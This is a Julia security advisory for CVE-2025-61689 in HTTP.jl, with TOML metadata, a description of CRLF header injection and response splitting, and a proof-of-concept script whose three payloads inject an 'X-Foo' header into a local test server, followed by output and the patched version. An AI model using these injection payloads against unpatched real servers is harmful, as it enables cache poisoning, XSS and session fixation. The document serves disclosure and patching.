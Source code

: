 ```toml
schema_version = "1.7.3"
id = "JLSEC-0000-mnry2zx4x-1of3bis"
modified = 2025-10-14T02:22:26.433Z
aliases = ["GHSA-h3x8-ppwj-6vcj", "CVE-2025-61689"]

[[affected]]
pkg = "HTTP"
ranges = ["< 1.10.19"]

[[jlsec_sources]]
id = "GHSA-h3x8-ppwj-6vcj"
imported = 2025-10-14T02:22:26.408Z
modified = 2025-10-10T12:51:29.000Z
published = 2025-10-10T12:51:29.000Z
url = "https://api.github.com/repos/JuliaWeb/HTTP.jl/security-advisories/GHSA-h3x8-ppwj-6vcj"
html_url = "https://github.com/JuliaWeb/HTTP.jl/security/advisories/GHSA-h3x8-ppwj-6vcj"
```

# Header injection/Response splitting via header construction.

HTTP.jl did not validate header names/values for illegal characters, allowing CRLF-based header injection and response splitting.

```
using HTTP, Sockets

function handle_index(req::HTTP.Request)
    @show HTTP.header(req, "X-Foo")
    return HTTP.Response(200, "ok")
end

function handle_redirect(req::HTTP.Request)
    return HTTP.Response(301, ["Location" => get(HTTP.URIs.queryparams(req), "to", "/")], "redirect")
end

const router = HTTP.Router()
HTTP.register!(router, "GET", "/", handle_index)
HTTP.register!(router, "GET", "/redirect", handle_redirect)

server = HTTP.serve!(router, Sockets.IPv4(0,0,0,0), 8080)


println("[*] POC 1: Header injection in request through header key")
user_input = "X-Custom: x\r\nX-Foo: Bar\r\nX-Custom"
HTTP.get("http://localhost:8080/", [user_input => "hello"])

println()

println("[*] POC 2: Header injection in request through header value")
user_input = "hello\r\nX-Foo: Bar"
HTTP.get("http://localhost:8080/", ["X-Custom" => user_input])

println()

println("[*] POC 3: Header injection in response through header value")
res = HTTP.get("http://localhost:8080/redirect?to=/%0d%0aX-Foo:%20Bar", redirect=false)
@show HTTP.header(res, "X-Foo")

```

_Result_

```
[ Info: Listening on: [0.0.0.0:8080](http://0.0.0.0:8080/), thread id: 1
[*] POC 1: Header injection in request through header key
HTTP.header(req, "X-Foo") = "Bar"

[*] POC 2: Header injection in request through header value
HTTP.header(req, "X-Foo") = "Bar"

[*] POC 3: Header injection in response through header value
HTTP.header(res, "X-Foo") = "Bar"
```

### Impact

This enables HTTP response splitting and header injection, leading to cache poisoning, XSS, session fixation, and more.

### Patches

This issue is fixed in HTTP.jl  `v1.10.19`

### Credit

Chen T

